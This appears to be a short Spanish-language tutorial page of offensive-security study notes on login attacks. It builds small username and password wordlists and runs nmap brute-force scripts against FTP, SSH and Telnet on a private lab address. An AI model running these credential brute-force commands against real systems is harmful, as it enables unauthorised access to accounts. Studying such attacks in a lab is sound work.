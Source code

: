 ```yaml
---
theme: "just-the-docs"
title: "Ataques de Autenticacion/Login"
layout: default
nav_order: 13
parent: "Seguridad Ofensiva"
---
```

# Ataques de Autenticacion/login
## Creacion de diccionarios/wordlist pequenos para hacer las pruebas
```bash
cd /home/lesand/Desktop/tools/diccionarios  
echo -e "admin\nroot" > usuarios.txt
echo -e "lesand2222\nlesand3333\nlesand1111\nlesand4321\nlesand1234\lesand2020\nlesand2022\nlesand2023\nlesand2024\nlesand2025" > dicc.txt
```
## FTP
### NMAP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## SSH
### NMAP
```bash
nmap -p 22 --script ssh-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## TELNET
### NMAP
```bash
nmap -p 23 --script telnet-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
